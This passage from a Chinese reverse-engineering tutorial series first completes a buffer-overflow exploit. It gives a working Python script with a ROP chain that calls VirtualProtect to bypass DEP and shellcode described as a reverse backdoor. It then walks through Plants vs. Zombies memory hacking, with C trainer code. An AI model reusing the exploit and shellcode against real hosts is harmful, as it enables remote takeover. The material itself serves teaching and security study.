                        return OpCode_Dic[0].get("addr")
        except Exception:
            pass

if __name__ == "__main__":
    dbg = MyDebug()
    connect_flag = dbg.connect()

    # 得到检索地址
    start_address = 0x62501000
    end_address = 0x62501fff - start_address

    disasm_dict = dbg.get_disasm_code(start_address,end_address)

    # 快速查找构建漏洞利用代码
    SearchCode = [
        ["ret"],
        ["pop eax","ret"],
        ["add ebp,eax","ret"],
        ["pop eax","ret"],
        ["neg eax","ret"],
        ["pop ebx","ret"],
        ["inc ebx","ret"],
        ["add ebx,eax", "ret"],
        ["pop edx", "ret"],
        ["neg edx", "ret"],
        ["pop ecx", "ret"],
        ["ret"],
        ["pop esi", "ret"],
        ["jmp [eax]", "ret"],
        ["pop eax", "ret"],
        ["jmp esp", "ret"],
    ]

    # 检索内存指令集
    for item in range(0,len(SearchCode)):
        Search = SearchCode[item]
        ret = SearchOpCode(disasm_dict,Search,1000)
        if ret != None:
            print("指令集: {} --> 首次出现地址: {}".format(SearchCode[item],hex(ret)))

    dbg.close()
```

运行上述插件则可扫描出当前`network.dll`模块内所有匹配的内存地址，并输出如下图所示的扫描结果；



接着再扫描一下`msvcr71.dll`模块内的ROP指令片段，并输出如下图所示的扫描结果；



需要注意的是，单纯在这两个模块内搜索是无法构建出这段特殊指令集的，读者可自行更换模块对模块批量寻找，此处只是为了演示`LyScript`插件的使用细节；

笔者已经将`ROP`链构建好了，当然手动构建并不是最好的选择，除了使用`LyScript`插件搜外，读者也可以使用`mona.py`插件自动化完成这个过程，`mona.py`插件是专门用户构建有效载荷的工具，其构建语句是`!mona.py rop -m *.dll -cp nonull`这里我就不在罗嗦了，直接给出构建好的ROP指令片段吧；
```Python
# coding:utf-8

import socket
import struct

host = "192.168.9.118"
port = 9999
sock = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
sock.connect((host,port))
command = b"send |/.:/"      # 发送数据包头
buffer = b'A' * 2002         # 实际缓冲区填充物
nops = b'\x90' * 50          # nop雪橇的位置

buf =  b""
buf += b"\xda\xd6\xb8\x8e\x0b\x73\x3d\xd9\x74\x24\xf4\x5f"
buf += b"\x2b\xc9\xb1\x59\x31\x47\x19\x83\xc7\x04\x03\x47"
buf += b"\x15\x6c\xfe\x8f\xd5\xff\x01\x70\x26\x9f\x88\x95"
buf += b"\x17\x8d\xef\xde\x0a\x01\x7b\xb2\xa6\xea\x29\x27"
buf += b"\x86\x13\xc2\xf0\xa2\xcd\x56\x8c\x1a\x20\xa9\xdd"
buf += b"\x67\x23\x55\x1c\xb4\x83\x64\xef\xc9\xc2\xa1\xb9"
buf += b"\xa4\x2b\x7f\x6d\xcc\xe1\x90\x1a\x90\x39\x90\xcc"
buf += b"\x9e\x01\xea\x69\x60\xf5\x46\x73\xb1\x7e\x1e\x6b"
buf += b"\xba\xd8\xbf\x8a\x6f\x88\x3a\x45\xfb\x14\x74\xa9"
buf += b"\x4d\xef\x42\xde\x4f\x39\x9b\x20\xe3\x04\x13\xad"
buf += b"\xfd\x41\x94\x4e\x88\xb9\xe6\xf3\x8b\x7a\x94\x2f"
buf += b"\x19\x9c\x3e\xbb\xb9\x78\xbe\x68\x5f\x0b\xcc\xc5"
buf += b"\x2b\x53\xd1\xd8\xf8\xe8\xed\x51\xff\x3e\x64\x21"
buf += b"\x24\x9a\x2c\xf1\x45\xbb\x88\x54\x79\xdb\x75\x08"
buf += b"\xdf\x90\x94\x5f\x5f\x59\x67\x60\x3d\xcd\xab\xad"
buf += b"\xbe\x0d\xa4\xa6\xcd\x3f\x6b\x1d\x5a\x73\xe4\xbb"
buf += b"\x9d\x02\xe2\x3b\x71\xac\x63\xc2\x72\xcc\xaa\x01"
buf += b"\x26\x9c\xc4\xa0\x47\x77\x15\x4c\x92\xed\x1f\xda"
buf += b"\xdd\x59\x16\x9d\xb6\x9b\x29\x83\xfe\x12\xcf\x93"
buf += b"\xae\x74\x40\x54\x1f\x34\x30\x3c\x75\xbb\x6f\x5c"
buf += b"\x76\x16\x18\xf7\x99\xce\x70\x60\x03\x4b\x0a\x11"
buf += b"\xcc\x46\x76\x11\x46\x62\x86\xdc\xaf\x07\x94\x09"
buf += b"\xc8\xe7\x64\xca\x7d\xe7\x0e\xce\xd7\xb0\xa6\xcc"
buf += b"\x0e\xf6\x68\x2e\x65\x85\x6f\xd0\xf8\xbf\x04\xe7"
buf += b"\x6e\xff\x72\x08\x7f\xff\x82\x5e\x15\xff\xea\x06"
buf += b"\x4d\xac\x0f\x49\x58\xc1\x83\xdc\x63\xb3\x70\x76"
buf += b"\x0c\x39\xae\xb0\x93\xc2\x85\xc2\xd4\x3c\x5b\xed"
buf += b"\x7c\x54\xa3\xad\x7c\xa4\xc9\x2d\x2d\xcc\x06\x01"
buf += b"\xc2\x3c\xe6\x88\x8b\x54\x6d\x5d\x79\xc5\x72\x74"
buf += b"\xdf\x5b\x72\x7b\xc4\x6c\x09\xf4\xfb\x8d\xee\x1c"
buf += b"\x98\x8e\xee\x20\x9e\xb3\x38\x19\xd4\xf2\xf8\x1e"
buf += b"\xe7\x41\x5c\x36\x62\xa9\xf2\x48\xa7"

rop = struct.pack ('<L',0x7c349614)   # ret
rop += struct.pack('<L',0x7c34728e)   # pop eax
rop += struct.pack('<L',0xfffffcdf)   #
rop += struct.pack('<L',0x7c379c10)   # add ebp,eax
rop += struct.pack('<L',0x7c34728e)   # pop eax
rop += struct.pack('<L',0xfffffdff)   # value = 0x201
rop += struct.pack('<L',0x7c353c73)   # neg eax
rop += struct.pack('<L',0x7c34373a)   # pop ebx
rop += struct.pack('<L',0xffffffff)   #
rop += struct.pack('<L',0x7c345255)   # inc ebx
rop += struct.pack('<L',0x7c352174)   # add ebx,eax
rop += struct.pack('<L',0x7c344efe)   # pop edx
rop += struct.pack('<L',0xffffffc0)   # 0x40h
rop += struct.pack('<L',0x7c351eb1)   # neg edx
rop += struct.pack('<L',0x7c36ba51)   # pop ecx
rop += struct.pack('<L',0x7c38f2f4)   # &writetable
rop += struct.pack('<L',0x7c34a490)   # pop edi
rop += struct.pack('<L',0x7c346c0b)   # ret (rop nop)
rop += struct.pack('<L',0x7c352dda)   # pop esi
rop += struct.pack('<L',0x7c3415a2)   # jmp [eax]
rop += struct.pack('<L',0x7c34d060)   # pop eax
rop += struct.pack('<L',0x7c37a151)   # ptr to virtualProtect()
rop += struct.pack('<L',0x625011ed)   # jmp esp 原始EIP地址

sock.send(command + buffer + rop + nops + buf)
sock.close()
```
此时我们回到被攻击主机，并通过`x64DBG`附加调试FTP服务程序，然后手动在第一条链上下断点`0x7c349614`然后运行攻击脚本，观察堆栈的变化。



如下图就是运行后的堆栈，你可以清晰的看到堆栈，栈顶的`41414141`就是我们填充的合法指令，而接着下方就是我们构建的ROP链，当执行完这条链的时候此时的当前的堆栈就会被赋予可执行权限；



最后调用`0x625011ed`也就是`jmp esp`跳转到下方连续的`0x90`NOP垫片位置，此时当垫片被执行完毕，就会顺利的执行我们所布置好的`ShellCode`反弹后门。



继续跟随，Nop垫片结束后则滑向ShellCode后门代码片段，则此时后门就被顺利运行了，如下图所示；



通过按下F9让程序直接运行起来，此时回到攻击主机，则此时会看到我们已经拿到了主机的完整控制权；



至此笔者已经展示了漏洞挖掘的具体实现细节，在真正的漏洞挖掘场景中其思路与上述案例完全一致，本案例也仅仅只是让读者能够理解漏洞的产生，以及如何挖掘，并以此揭秘读者心中的疑惑。 同时在实际的漏洞挖掘中，读者也需要遵循一些基本的原则，例如：

 - 掌握相关技术：漏洞挖掘需要掌握相关的技术，例如程序分析、二进制分析、网络协议等等，这些技术能够帮助你识别可能存在的漏洞。
 - 熟悉目标：了解目标系统的结构、代码库、协议等信息，有助于快速定位漏洞。
 - 使用工具：使用专门的工具可以提高效率和准确性，例如漏洞扫描器、反汇编器、调试器等等。
 - 坚持实践：漏洞挖掘需要不断地实践和尝试，通过不断的学习和实践，才能提高自己的技能和能力。

总之，漏洞挖掘是一项需要技术和经验的工作，需要不断学习和实践，才能取得好的成果，也希望读者能多多实践，早日成为漏洞挖掘专业人士；


## 第六篇：逆向分析植物大战僵尸

《植物大战僵尸》是一款非常经典的塔防类游戏，由`PopCap Games`公司开发并先后在多个平台上推出。主要玩法为种植各种攻击性植物，抵御僵尸攻击，该游戏可以说绝大多数九零后都接触或者玩过，本章将通过逆向分析技术对该游戏进行分析，并实现一些游戏之外的功能，以此让用户理解二进制安全技术的应用范围。

本系列文章仅限于安全技术研究与学习交流，逆向工程技术可用于安全研究和学习目的，但不应用于非法用途或商业用途。该声明强调了道德和法律责任，提醒读者不要滥用本系列文章提供的技术和知识，以免造成不必要的损失，并呼吁读者遵守相关法律法规，保护网络安全和用户权益。

### 6.1 增加自己的阳光

根据第二章中CE修改器的使用方法，相信读者应该能理解如何增加自己的阳光了，通过简单的阳光地址排查即可得到阳光的动态地址，本次实验目标，通过逆向分析植物阳光数量的动态地址找到阳光的基址与偏移，从而实现每次启动游戏都能够使用基址加偏移的方式定位阳光数据，最后我们将通过使用C语言编写通用辅助实现自定义阳光功能，在开始之前我们先来说一下为什么会有动态地址与基址的概念！

我们都知道大部分编程语言都会有`局部变量`和`全局变量`这两种，相对于`局部变量`来说是在游戏运行后动态分配的默认由堆栈存储，而全局变量则是我们所说的基址其默认存储在全局数据区，全局数据区里面的数据则是在编译的时候就写入到程序里了，所以不会变化，而游戏的开发都会使用面向对象技术，我们可以推测游戏中的阳光很可能就是类中的一个数据成员，而数据成员的地址就是通过`new()`动态分配的，如下代码：
```c
#include <stdio.h>

class SunClass
{
  public:
    int SunTime;
    int SunValue;
    int SunAttr;
};

int main(int argc, char *argv[])
{
    SunClass *Sun=new SunClass;
    Sun->SunValue=100;
    printf("SunValue: %d",Sun->SunValue);
    return 0;
}
```
如上代码定义了`SunClass`类，在主函数中我们为Sun实例指针动态分配了内存，分配的内存存储在栈中，而栈地址每次都会发生变化，所以分配的内存地址是不固定的，从而导致阳光的地址是动态变化的。

好！现在我们就进入正题，先从最简单的阳光地址找起，首先你需要运行游戏并附加植物大战僵尸进程，然后我们开启新的游戏，首次扫描我们先来遍历4字节的`150`吧，也就是搜索`当前阳光`的数量，当然你也可以尝试搜索金钱数量等，道理都是一样的，这里就拿阳光的搜索方法作为演示目标。



接着我们需要让阳光发生变化，这样才可以让我们继续更加精确的确定这个局部变量在内存中的地址是多少，此处我手动种植了一颗`豌豆射手`则此时的阳光变为了50个，我们就输入50然后再次扫描，由于这款游戏比较简单，基本上经过两次筛选就能定位到阳光的内存地址了，在遍历一些大型游戏的时候，读者应该有耐心，经过多次筛查直到最终找到正确的动态内存地址为止。



观察上图`13D1A588`地址，会发现CE显示该地址是一个灰色地址，在CE中灰色就表示是动态地址而绿色则表示基址，此处的动态地址则相当于我们上方代码中给一个类动态`new`开辟的内存空间的首地址，由于该地址是系统为我们动态开辟的，所以每次重启游戏该地址都会发生变化，为了能够固定该地址我们需要寻找到它的基址。

此时读者需要在该地址上方右键，选择`查找改写地址`当我们选择查找改写地址的时候，其实CE就为我们在这个地址上下了硬件写入断点，此时回到游戏等待阳光出现并点击阳光，则此时会出现以下一条汇编指令。



上图中我们可以得知`add [eax+5560],ecx`这条指令是加法运算，最右侧ECX里面就是我们当前需要增加的阳光数，将ECX中的阳光数赋值给`[eax+5560]`这个内存地址，那么我们的阳光就会增加，此时我们需要知道EAX寄存器指向的地址是多少，CE中已经为我们分析出了EAX寄存器当前值是`13D15028`此时需要记下它的一级偏移`5560`，然后去搜索`13D15028`这个内存地址。



根据上图搜索结果可以看到有非常多的数据，那我们该如何判断应该选择那一个呢？这里就是一个技巧的问题了，我们需要尽量选择地址不同的，比如高亮处的位置是我们重点关注的对象，其中`0294A689`这个内存地址就相当于我们`SunClass`类实例化的基地址，而`5560`则是阳光在类中的偏移地址，此处我们需要分析谁给EAX赋值了，直接在`0294A689`右键，查找访问地址，然后会看到以下截图内容：



此处会出现一大堆指令，这里也需要一个遍历技巧，我们可以排除CMP之类的对比指令，因为我们是增加阳光所以不可能出现对比的代码，此外我们需要关注操作数左侧是EAX的，因为我们要找的是谁给EAX赋值的，我们选择`mov eax,[ecx+00000768]`这条汇编指令，之所以会选择这一条指令是因为我们的上一条指令是`add [eax+5560],ecx`而根据词条指令我们需要得到EAX寄存器的值，所以在`mov eax,[ecx+00000768]`恰巧是对EAX寄存器进行了赋值操作，则选择这一句将会是正确的，然后发现二级偏移是`768`，继续查找谁给ECX赋值的，这里直接记下ECX寄存器中的地址`02949F30`，并继续搜索这个内存地址；



如上图所示，继续搜索十六进制数`02949F30`如下搜索结果可以看到有绿色的地址，这些绿色的地址都属于全局变量，到此说明我们已经找到了这个阳光的基地址了，这里我们可以随意选择绿色的地址作为基址使用，此处我选择的是`PlantsVsZombies.exe+2A9EC0`也就是`006A9EC0`来当作基址使用，前面找到的地址每次启动游戏都会发生变化，而这个基址是永远不会变化的。

至此我们通过查找到的基址与偏移相加的形式，就可以定位到动态地址了，具体公式应该是`阳光= [[[006a9ec0]+768]+5560]`，我们可以直接在CE中添加这个指针，用于进行测试，如下图所示：



最后我们再来总结一下查找思路，其基址查找过程可以描述为以下流程，如果用正向的思路来理解的话应该从后向前来看，会发现正向思路来看会非常的清晰，而我们找基址则是从逆向的角度来分析，也就是从前向后来理解这个过程。

已知阳光的动态地址ECX的值就是增加的阳光 将增加值ECX赋值给`[eax+5560]`我们就得到了阳光  
 - add [eax+00005560],ecx

我们需要继续找出EAX是多少? 由第二条汇编指令可知EAX的值来自于`[ecx+768]`这个地址  
 - mov eax,[ecx+00000768]

最后我们继续跟随查找ECX里面存储的数据得到`[006A9EC0]`该数据明显属于全局数据区  
 - mov ecx,[006A9EC0]

最后总结出定位静态基址公式，当前阳光就等于`[[[006a9ec0]+768]+5560]`获取到。

接下来则是如何通过编程的方式读取并修改我们的阳光数量，如下这样一段代码，它可以实现读取动态地址并修改阳光数量，首先通过`GetPidByName()`我们可以根据进程名称获取到该程序的进程PID号，其次通过`CalculateDynamicMemoryAddresses()`这个自定义函数可动态计算处当前阳光的动态地址，最后通过调用`WriteProcessMemory`向该地址内写出一个数值，并以此实现替换阳光的目的，这段代码功能如下所示；
```c
#include <iostream>
#include <windows.h>
#include <string>
#include <tlhelp32.h>

// 根据进程名得到进程PID
DWORD GetPidByName(const char* name)
{
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 pe32 = { sizeof(PROCESSENTRY32) };
    DWORD pid = 0;

    if (Process32First(snapshot, &pe32))
    {
        do
        {
            if (_stricmp(pe32.szExeFile, name) == 0)
            {
                pid = pe32.th32ProcessID;
                break;
            }
        } while (Process32Next(snapshot, &pe32));
    }
    CloseHandle(snapshot);
    return pid;
}

// 计算动态内存地址
int CalculateDynamicMemoryAddresses(int Pid, int Base, int Offset[], int len)
{
    int temp;
    HANDLE Process;
    Process = OpenProcess(PROCESS_ALL_ACCESS, false, Pid);
    ReadProcessMemory(Process, (LPVOID)Base, &temp, 4, NULL);
    for (int i = 0; i < len; i++)
    {
        if (i == len - 1)
        {
            temp += Offset[i];
        }
        else
        {
            ReadProcessMemory(Process, (LPVOID)(temp + Offset[i]), &temp, 4, NULL);
        }
    }
    return temp;
}

// 设置阳光
BOOL SetSunshine(const char *process, int value)
{
    DWORD pid = GetPidByName(process);
    printf("[*] 进程PID = %d \n", pid);

    INT base;
    INT offset[3];
    base = 0x006a9ec0;
    offset[0] = 0x768;
    offset[1] = 0x5560;

    int addr = CalculateDynamicMemoryAddresses(pid, base, offset, 2);
    printf("[*] 进程动态地址 = 0x%x \n", addr);
    
    HANDLE Process = OpenProcess(PROCESS_ALL_ACCESS, false, pid);
    
    return WriteProcessMemory(Process, (LPVOID)addr, &value, 4, 0);
}

int main(int argc, char *argv[])
{
    DWORD Sun = 9999;
    BOOL ref = SetSunshine("PlantsVsZombies.exe", Sun);

    if (ref == TRUE)
    {
        printf("[+] 阳光已被调整为 %d \n", Sun);
    }
    else
    {
        printf("[-] 增加失败 \n");
    }

    system("pause");
    return 0;
}
```

至此，当读者尝试运行上述代码时，则会将目标进程内的阳光数量调整为`9999`如下图所示；



### 6.2 实现自动收集阳光

通过阳光增加的值为切入点，找到自动收集阳光的关键判断并实现自动收集阳光，首先我们猜测当阳光出现后，我们是否会去点击，这个过程必然是由一个判断和一个时钟周期事件来控制的，那么当我们点击下落的阳光以后，则该判断条件实现，会执行收集阳光的CALL，否则的话继续执行阳光下落的过场动画，这正是正向开发的一种开发手段，此时我们也仅仅是猜测，接下来我们将去验证这个想法。

 - 为了找到阳光自动收集的关键跳转，我们需要以阳光增加作为切入点，为啥以它作为切入点呢？

我们可以这样思考，当我们点击阳光后阳光增加了，说明已经完成了判断，下一步就是写入变量从而增加阳光，那么我们先来找到阳光的动态地址，并在该动态地址上按下`F6键`查找写入，然后回到游戏等待阳光出现并点击阳光，此时CE会出现以下代码，我们只需要记下`00430A11`这个内存地址，然后直接关闭CE。



接着读者需要打开`x64dbg`调试器并附加到游戏进程，附加完成以后，游戏会被`x64dbg`暂停运行，此时我们直接按下`F12`让游戏运行起来，然后按下`Ctrl + G`输入`00430A11`跳转到刚才找到的代码位置，当跳转过去以后读者可以直接按下`F2`设置一个软件断点；



此时我们需要逆向思考一个问题，`add dword ptr ds:[eax+0x5560],ecx`这条指令是在我们阳光被点击后执行的，也就是说我们已经点击了阳光现在开始赋值了，那判断阳光是否被回收肯定是在这条指令之前出现，所以我们向上找，观察代码我们不难看出执行`add dword ptr ds:[eax+0x5560],ecx`指令之前有一个无条件跳转`jmp 0x00430A0E`跳过来的。



继续向上查找跳转来源，可知在`jmp`跳转之前有一个`je 0x004309EF`跳转，经过测试这个地方具体控制阳光是否增加，在向上找就到段首了，此处代码中并没有出现自动收集阳光的关键跳转，因此推断这里应该是一个控制阳光是否增加的子过程`(子过程：过程中调用的过程,称为子过程)`，所以我们继续回朔到上一层。



为了能够回朔到上一层子过程中，我们需要取消阳光递增处`00430A11`的断点，并在段尾`00430AB4`处下一个`F2断点`防止程序跑起来，接着读者需要回到游戏中并等待阳光的出现，当阳光出现后，此时`x64dbg`就会断在`00430AB4`断点处，断下后直接取消`00430AB4`处的断点，执行到`Ret`处即可返回到上一层。



如下图当读者出CALL后，可以看到我们正是在`call <plantsvszombies.sub_4309D0>` 这里出来的，而上方就有一个`jne plantsvszombies.4313FD`关键跳，此处的关键跳转也并不是控制是否回收阳光的关键跳转，而此处的代码量比较少，因此判断此处还是一个子过程，我们继续回溯到上一层。



此时读者需要取消`004313F4`处的内存断点，此处需要注意，当读者来到`004314BA`时，在走一步则可以走出这一层CALL调用；



我们直接单步F8执行走出这个CALL，出CALL以后会看到`call <plantsvszombies.sub_430E40>`的关键调用，我们正是从这个子过程里出来的，接着向上找跳转会看到有一个`jne plantsvszombies.431599`此处如果将其改为`jmp`的话即可实现自动收集阳光，也就是说如果`jne`跳转实现则执行收集阳光，否则继续执行阳光下落的过场动画。



如果我们在关键跳`jne plantsvszombies.4313FD`处下断点时，会发现当阳光出现后程序会被无限的断下，这说明是有一个定时器线程在不断的执行判断代码，每次都会判断你是否点击了阳光，所以x64dbg才会被一直断下，如果想要实现自动收集阳光则只需要将`0043158F`处的机器码`7508`修改为`EB08`即可；

既然知道了流程那么修改将变得很容易实现了，首先我们需要实现一个`ReadByteSet`函数该函数用于读取特定位置的机器码，并存储起来其目的是当用户需要恢复时可以快速回退，接着封装一个`WriteByteSet`函数则用于专门修改特定位置处的机器码；
```c
#include <iostream>
#include <windows.h>
#include <string>
#include <tlhelp32.h>

// 根据进程名得到进程PID
DWORD GetPidByName(const char* name)
{
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 pe32 = { sizeof(PROCESSENTRY32) };
    DWORD pid = 0;

    if (Process32First(snapshot, &pe32))
    {
        do
        {
            if (_stricmp(pe32.szExeFile, name) == 0)
            {
                pid = pe32.th32ProcessID;
                break;
            }
        } while (Process32Next(snapshot, &pe32));
    }
    CloseHandle(snapshot);
    return pid;
}

// 读取内存字节集
byte *ReadByteSet(DWORD Pid, DWORD Base, DWORD Size)
{
    HANDLE handle = OpenProcess(PROCESS_ALL_ACCESS, 0, Pid);
    if (handle == NULL)
    {
        return 0;
    }

    byte *buf = new byte[Size];
    
    BOOL ref = ReadProcessMemory(handle, (LPVOID)Base, buf, Size, NULL);
    if (ref == TRUE)
    {
        printf("[*] 读取数据成功 \n");
    }
    else
    {
        printf("[*] 读取数据失败 \n");
    }
    return buf;
}

// 写内存字节集
BOOL WriteByteSet(DWORD Pid, DWORD Base, unsigned char *ShellCode, DWORD Size)
{
    BYTE *Buff = new BYTE[Size];
    memset(Buff, *ShellCode, Size);

    HANDLE handle = OpenProcess(PROCESS_ALL_ACCESS, 0, Pid);

    return WriteProcessMemory(handle, (LPVOID)Base, Buff, Size, NULL);
}

int main(int argc, char *argv[])
{
    // 得到进程PID
    DWORD pid = GetPidByName("PlantsVsZombies.exe");
    printf("[*] 进程PID = %d \n", pid);

    // 读取原始字节集
    byte *Buff = new byte[2];
    Buff = ReadByteSet(pid, 0x0043158F, 2);

    for (int i = 0; i < 2; i++)
    {
        printf("%02X ", Buff[i]);
    }

    // 写出替换自动收集功能
    unsigned char shell[] = { 0xEB };

    BOOL ref = WriteByteSet(pid, 0x0043158F, shell, 1);
    if (ref == TRUE)
    {
        printf("[*] 替换数据成功 \n");

        for (size_t i = 0; i < sizeof(shell); i++)
        {
            printf("%x \n", shell[i]);
        }
    }
    else
    {
        printf("[*] 替换数据失败 \n");
    }

    system("pause");
    return 0;
}
```

当这段代码被运行后则游戏内的参数将被更改，此时当出现阳光时会自动实现收集功能，效果图如下所示；



### 6.3 寻找葵花生产速度

本次实验将通过CE修改器遍历出控制太阳花吐出阳光的时间变量，太阳花吐出阳光是由一个定时器控制的，首先我们找到第一个太阳花的基址与偏移，然后找出第二个太阳花的动态地址，并通过公式计算得到太阳花结构长度的相对偏移，最后我们通过C语言编程实现，遍历并修改所有图中的太阳花吐出阳光的时间，最终实现全图吐阳光。

本次实验将接触到关于分析定时器的相关技巧，一般的定时器分为递增定时器与递减定时器，不过大多数游戏都会使用递减定时器，因为递减定时器更好编程判断，本游戏中的太阳花生产速度使用的就是递减定时器，太阳花生产阳光一定是一个周期性的事件，我们只要找到该定时器并改写它的时间即可实现无限吐阳光，如下是太阳花定时器的遍历技巧：

 - 首先种下第一个太阳花 > 然后CE马上搜索 > 未知的初始值
 - 回到游戏短暂等待(时钟发生变化) > 然后马上切回CE > 搜索减少的数值 > 掉一点搜一点
 - 如果中途太阳花吐出了阳光 > 则需要搜索增加的数值(1次) > 然后再搜索减少的数值
 - 最终找到一个动态地址(范围:0-5000) > 锁定该变量范围在1至10即可 > 实现无限出阳光

修改太阳花时钟有两种方式，第一种找到基址与偏移然后分别修改每一个定时器的时钟，第二种方式则是找到汇编跳转并进行改写，第一种方式要找植物相对偏移，首先我们先来猜测以下游戏作者会用什么方式存储不同植物的栏位。

如下图所示，我们猜测，游戏作者会使用二维结构体来存储植物位置，通过结构体链表将不同植物进行连接，当我们铲除植物的时候，只需要在链表中摘除相应节点，而太阳花的的地址一定是连续存储在内存中的线性空间，此游戏的矩阵可能就是`5*9`这么一个范围，假设在`横坐标X轴`如果两个植物之间的相对偏移是`14C`(14C就是太阳花结构体的实际长度)，那么我们找到第一个植物的基址与偏移，每次相加`14C`的偏移量，则可遍历到下一个植物的内存地址，同理如果相减`14C`则就可遍历出上一个植物的内存地址，而`纵坐标Y`可能就是由一个`1C偏移`来控制的，此时我们也仅仅只是猜测。


如果我们按照上图中的方式进行推理，其计算每一个阳光时钟公式就可总结为如下，但真的是这样吗?

 - X坐标下的第1个植物：基地址 + 偏移1 + 偏移2 + 768  
 - X坐标下的第2个植物：基地址 + 偏移1 + 偏移2 + 768 + 14C  
 - X坐标下的第3个植物：基地址 + 偏移1 + 偏移2 + 768 + 14C + 14C  
 - Y坐标下的第1个植物：基地址 + 偏移1 + 偏移2 + 768 + 1C  
 - Y坐标下的第2个植物：基地址 + 偏移1 + 偏移2 + 768 + 1C + 14C

其实并不是！经过我对具体坐标的分析，在本游戏中太阳花与太阳花之间，可能使用了一维结构体来存储的植物与植物之间的属性，每次相加偏移都会遍历到下一个植物的属性上面，也就是说无论太阳花种植到在什么位置，只要相加偏移就可以遍历到下一个植物的冷却数据，而需要遍历的次数则取决于太阳花的种植数量。

首先我们种植一颗太阳花，并通过上方的遍历技巧找到当前第一个植物的动态地址，排查到最后可发现剩余14条结果，此时我们可猜测这个定时器应该在`0-2000`之间，应该不会大于这个参数，如下图我找到了`13457080`这个地址，将该地址锁定为`10`就可以实现第一个太阳无限吐阳光。



接着我们在第一个太阳花的旁边种植第二个太阳花，然后还是使用前面的遍历技巧找到第二个太阳花的动态地址`134571CC`，找到以后我们可以猜测第一个与第二个在内存中的布局应该是连续的，所以我们可以使用`134571CC - 13457080 = 14C`此处得到的`14C`其实就是太阳花结构的实际长度，也可以说是两个太阳花之间的偏移值。



既然知道了太阳花之间的相对偏移，那么我们下一步就是来找一个固定的地址，我们在第一个太阳花地址上，右键选择查找改写地址，然后可看到`0045FA48 \- 83 47 58 FF \- add dword ptr [edi+58],-01 <<` 这条汇编指令，此汇编指令乍一看是一条加法指令，但其相加的操作数是-1也就是相减，此处就是太阳花的定时器，其每次减1直到为0则吐出阳光，这里我们就可知该定时器是一个递减定时器，我们只需要记下偏移为`58`下一个地址是`13457028`即可。



回到CE我们继续搜索十六进制地址`13457028`然后找到偏移为`AC`下一个地址为`13D08948`依次类推，最后读者应该能找到如下所示的内存地址；

 - add dword ptr [edi + 0x58],-01 找到第一个0x58偏移
 - mov eax,[edx + 0xac] 找到第二个0xac偏移
 - mov esi,[edi + 0x768]找到第三个0x768偏移
 - mov eax,[006A9F38] 找到最后的006A9F38基地址

最后我们使用CE添加这个基地址与偏移数据来验证一下，公式为 `[[[006A9F38+768]+AC]+58]]` 此时我们就可以定位到第一个太阳花的动态地址了。



根据上面的理论，我们知道太阳花的结构体大小为`14C`，那么我们在第一个太阳花动态地址的基础上加上`14C`就可以得到第二个太阳花的动态地址。



既然找到了基址与偏移，接下来就是通过C语言编程实现修改全图太阳花的冷却时间，此处贴出我实现的代码。
```c
#include <iostream>
#include <windows.h>
#include <string>
#include <tlhelp32.h>

// 根据进程名得到进程PID
DWORD GetPidByName(const char* name)
{
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 pe32 = { sizeof(PROCESSENTRY32) };
    DWORD pid = 0;

    if (Process32First(snapshot, &pe32))
    {
        do
        {
            if (_stricmp(pe32.szExeFile, name) == 0)
            {
                pid = pe32.th32ProcessID;
                break;
            }
        } while (Process32Next(snapshot, &pe32));
    }
    CloseHandle(snapshot);
    return pid;
}

// 计算动态内存地址
int CalculateDynamicMemoryAddresses(int Pid, int Base, int Offset[], int len)
{
    int temp;
    HANDLE Process;
    Process = OpenProcess(PROCESS_ALL_ACCESS, false, Pid);
    ReadProcessMemory(Process, (LPVOID)Base, &temp, 4, NULL);
    for (int i = 0; i < len; i++)
    {
        if (i == len - 1)
        {
            temp += Offset[i];
        }
        else
        {
            ReadProcessMemory(Process, (LPVOID)(temp + Offset[i]), &temp, 4, NULL);
        }
    }
    return temp;
}

int main(int argc, char *argv[])
{
    int base;
    int offset[4];
    int PID;

    base = 0x006a9f38;
    offset[0] = 0x768;
    offset[1] = 0xac;
    offset[2] = 0x58;

    // 得到进程PID
    PID = GetPidByName("PlantsVsZombies.exe");

    // 得到动态地址
    int addr = CalculateDynamicMemoryAddresses(PID, base, offset, 3);
    printf("[*] 阳光吐出动态地址 = 0x%x \n", addr);

    // 打开进程
    HANDLE Process = OpenProcess(PROCESS_ALL_ACCESS, false, PID);

    int SunOffset = 0;
    int SunNum = 10;
    while (TRUE)
    {
        // 循环前五个格子
        for (int i = 0; i < 5; i++)
        {
            WriteProcessMemory(Process, (LPVOID)(addr + SunOffset), &SunNum, 4, NULL);

            // 每个格子增加0x14C的偏移
            SunOffset = SunOffset + 0x14c;

            printf("[*] 第 %d 个太阳花吐出阳光 \n", i);
        }

        SunOffset = 0;
        Sleep(500);
    }

    system("pause");
    return 0;
}
```

当上方代码被运行，此时我们的太阳花会每隔`500`毫秒自动吐出一个阳光，输出效果如下图所示；



上述方法，虽然可以修改达到无限吐阳光的作用，但是这种修改方式，显然是不太合理，如果图中有100个太阳花，那么我们则只能循环100次，这种效率还是太低，其实我们可以通过直接修改硬编码的方式来实现一劳永逸的效果，之所以是一劳永逸，是因为所有太阳花的吐阳光判断都是共用一个判断函数执行的，阳光的递减时钟都会走一个地方`add dword ptr [edi+58],-01` 我们只需要定位到这里，然后分析出阳光产生的关键键跳转并改掉其硬编码即可。

根据上述分析可知内存地址`0045FA48`位置处就是计时器递减的子过程，如下分析流程，经过测试备注一些细节，我们只需要将图中的`0045FA7D`处的指令集,替换为`nop`即可实现全图的植物无线吐阳光；



通过使用写出内存字节集的功能，只需要将`jg plantsvszombies.45FB64`处替换为`Nop`即可，但需要注意的是一个`Nop`占用一个字节，我们需要替换`6个字节`的`Nop`才可以；



根据上方的实现原理，读者应该可以写出如下代码案例，完整源代码如下所示；
```c
#include <iostream>
#include <windows.h>
#include <string>
#include <tlhelp32.h>

// 根据进程名得到进程PID
DWORD GetPidByName(const char* name)
{
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 pe32 = { sizeof(PROCESSENTRY32) };
    DWORD pid = 0;

    if (Process32First(snapshot, &pe32))
    {
        do
        {
            if (_stricmp(pe32.szExeFile, name) == 0)
            {
                pid = pe32.th32ProcessID;
                break;
            }
